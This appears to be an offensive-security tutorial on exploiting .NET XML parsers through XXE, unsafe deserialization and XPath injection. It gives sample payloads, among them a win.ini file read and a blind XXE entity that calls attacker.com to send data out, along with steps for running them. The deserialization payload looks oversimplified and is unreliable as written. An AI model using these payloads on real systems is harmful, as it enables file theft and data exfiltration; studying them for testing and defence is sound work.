

# .NET XML Parser Exploitation

## Context

This article aims to provide offensive operators with the knowledge and skills needed to exploit XML External Entity (XXE) and deserialization vulnerabilities within .NET XML parsers. These exploits can lead to data exfiltration, command execution, and privilege escalation. Readers are expected to be familiar with XML structures, XML parsing mechanisms, and XXE vulnerabilities.

## Theory

### Core .NET XML Parsers and Their Security Models

In the .NET framework, the primary classes involved in XML parsing include `XmlDocument`, `XmlReader`, `XPathDocument`, and `XmlTextReader`. These parsers often have default settings that enable DTD (Document Type Definition) processing, potentially leading to XXE vulnerabilities if not properly configured. Misconfigurations or insecure defaults can result in severe security threats, such as XXE, Server-Side Request Forgery (SSRF), and the disclosure of sensitive files or even remote code execution.

### XXE Attack Vectors in .NET Parsers

A common attack vector for XXE involves an attacker submitting a crafted XML document containing an external entity. When the parser resolves this entity, it can lead to the exposure of sensitive data or the interaction with internal network resources. By manipulating entities, attackers can bypass naive input filtering, expanding beyond simple content restrictions to more complex payloads and exploits.

### Deserialization Flaws in .NET XML Processing

Unsafe deserialization of XML data can pose significant risks, allowing attackers to instantiate arbitrary objects or execute code. In .NET applications, `System.Xml.Serialization.XmlSerializer` and `DataContractSerializer` are frequently targeted by attackers for deserialization vulnerabilities. When these serializers process attacker-controlled XML, they can unknowingly execute harmful instructions embedded within the payload.

### XPath Injection via XXE in .NET

XPath Injection is another vector where XXE can be used to manipulate XPath queries. This involves injecting entities that alter the logic of XPath queries, potentially enabling unauthorized data access or logical manipulation. This can be especially dangerous in applications that rely heavily on XML data for making authorization and access decisions.

### Attacker Workflow: .NET XML Parser Exploitation

Below is a flowchart illustrating the typical workflow an attacker might follow when exploiting .NET XML parsers:



## Practice

### Exploiting XXE in XmlDocument

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">]>
    <root>&xxe;</root>
    ```

- **Explanation:** This XML payload attempts to retrieve the contents of a local file (`win.ini`) by defining an external entity (`xxe`).
- **Execution:** Send this payload to the target endpoint that accepts XML input, using an HTTP POST or a relevant API call.
- **Outcome:** If successful, the contents of `win.ini` will be included in the HTTP response, confirming the exploit.

### Blind XXE with Out-of-Band Exfiltration (XmlReader/XmlTextReader)

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://attacker.com/xxe"> %xxe;]>
    <root/>
    ```

- **Explanation:** This payload uses a parameter entity for blind XXE attacks, triggering an outbound HTTP request to an attacker-controlled server.
- **Execution:** Monitor the attacker-controlled server for incoming requests to confirm the XXE vulnerability through DNS or HTTP callbacks.
- **Outcome:** Successful execution results in data exfiltration to the attacker's server.

### Exploiting .NET XML Deserialization

- **Payload:**

    ```xml
    <ObjectData><KnownType><string>calc.exe</string></KnownType></ObjectData>
    ```

- **Explanation:** This payload targets XML deserialization vulnerabilities to trigger execution of a command (`calc.exe`) if deserialization is unsafe.
- **Execution:** Submit the payload to any endpoint utilizing `XmlSerializer` or `DataContractSerializer`.
- **Outcome:** If unsafe deserialization occurs, the payload executes arbitrary code, such as launching a calculator application.

### XPath Injection via XXE

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY xxe "' or '1'='1"]>
    <root><user>&xxe;</user></root>
    ```

- **Explanation:** This payload alters an XPath query, using a boolean logic flaw to potentially bypass authentication or extract unauthorized data.
- **Execution:** Observe the application response for signs of unauthorized data access or logical manipulation.
- **Outcome:** Successful payload execution indicates potential flaws in input validation and allows an attacker to manipulate query logic.

## Tools

- **Burp Suite**
- **XXEinjector**
- **Responder**
- **OOB Server (e.g., Interactsh)**

This concludes the detailed content on .NET XML Parser Exploitation, providing a step-by-step guide and theory necessary for exploiting known vulnerabilities within these systems.